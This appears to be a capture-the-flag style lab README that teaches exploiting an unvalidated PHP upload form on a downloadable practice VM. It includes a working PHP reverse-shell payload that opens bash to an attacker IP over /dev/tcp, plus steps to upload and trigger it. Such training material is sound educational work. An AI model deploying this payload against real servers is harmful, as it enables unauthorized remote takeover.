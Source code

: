 # Reverse Shell on a Web Server

In this lab, you will practice using a **reverse shell** to remotely take control of a vulnerable server. Your mission is to identify a poorly secured form, upload a malicious file, and capture a flag hosted on the system. In this lab, you will learn:

- Detecting forms without type validation
- Uploading malicious files
- Executing a reverse shell in PHP
- Gaining remote control with `netcat`

<how-to-start>
   
## 🌱 How to Start This Lab

Follow these instructions to get started:

1. **Download the virtual machine** from this [link](https://storage.googleapis.com/cybersecurity-machines/reverse-lab.ova).
2. **Import the machine** into your preferred virtualization manager (VirtualBox, VMware, etc.).
3. Once the machine is running, you can start the lab!

</how-to-start>

## 📄 Instructions

The server hosts a website developed in PHP, accessible via a browser, which contains a form that does not validate the type of uploaded files. Your task is to prepare a functional reverse shell and get the server to connect back to your machine.

1. **Explore the vulnerable website**: Access the machine's IP from your browser and locate the file upload form.

2. **Prepare your reverse shell in PHP**: Create a file named `shell.php` with the following content:

     ```php
     <?php
     exec("/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/4444 0>&1'");
     ?>
     ```

   - Replace `YOUR_IP` with the IP of your attacking machine.

3. **Start a listener on your machine**

4. **Upload the reverse shell to the server**

5. **Activate the reverse connection**: Access the uploaded file through the browser. If everything is set up correctly, you will receive an interactive shell in your terminal.

**Remember:** You are in a controlled environment for educational purposes. Ethical knowledge is your best tool. Observe, explore, and learn to identify insecure configurations.

Happy hacking!
